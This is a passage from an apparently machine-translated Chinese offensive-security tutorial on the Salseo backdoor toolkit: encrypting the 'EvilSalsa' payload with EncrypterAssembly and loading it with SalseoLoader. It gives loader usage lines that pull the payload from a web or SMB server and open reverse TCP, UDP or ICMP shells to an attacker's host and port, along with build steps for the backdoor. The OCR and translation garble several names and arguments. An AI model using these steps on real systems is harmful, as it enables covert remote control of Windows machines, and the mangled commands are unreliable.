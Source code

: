 EncrypterAssembly 可以用作 Python 脚本或 Exe 二进制文件。它加密先前生成的 EvilSalsa。

Python 用法:

**python encrypterasmbly . py**<file>**<password></password>**</file>

 ****可执行文件用法:

**Encrypterassembly.exe**<file>T3T5**T7**</file>

**用 SalseoLoader 将加密的 EvilSalsa 带到餐桌上**

SalseoLoader 负责加载加密的有效载荷。既可以编译为库，也可以编译为可执行文件。如果它作为可执行文件运行，则必须在运行可执行文件时提供所选的参数。

如果它被编译成一个库，描述符“main”必须被导出。使用环境变量添加参数。

**用法:** 
–salseloader . exe 密码 http://web server . com/elpcinggal . txt revertcp lhost lport
–salseloader . exe 密码\ smbserver . com \ evil \ elpcinggal . txt reverseud lhost lport
–salseloader . exe 密码 c:\ temp \ elpcinggal . txt reversecmp

**教程**

**编译二进制文件**

从 github 下载源代码，编译 **EvilSalsa** 和 **SalseoLoader** 。你需要安装 **Visual Studio** 来编译代码。

针对您将要使用的 windows box 的体系结构编译这些项目(如果 windows 支持 x64，则针对该体系结构编译它们)。

您可以**在【平台目标】**的**左侧“构建”标签中选择 Visual Studio 内部的架构**。

(如果您找不到此选项，请在“**项目选项卡**中按下，然后在“**属性**”中按下)

![](img//8fc7bfb6a71bce6a385c96ce7c106070.png)

然后，构建两个项目(构建->构建解决方案)(在日志中会出现可执行文件的路径):

![](img//1ff5d383fbf49c78d44b7daa043d1cdb.png)

**准备借壳**

首先，你需要对**EvilSalsa.dll**进行编码。为此，可以使用 python 脚本**encrypterasembly . py**或者编译项目**encrypterasembly**
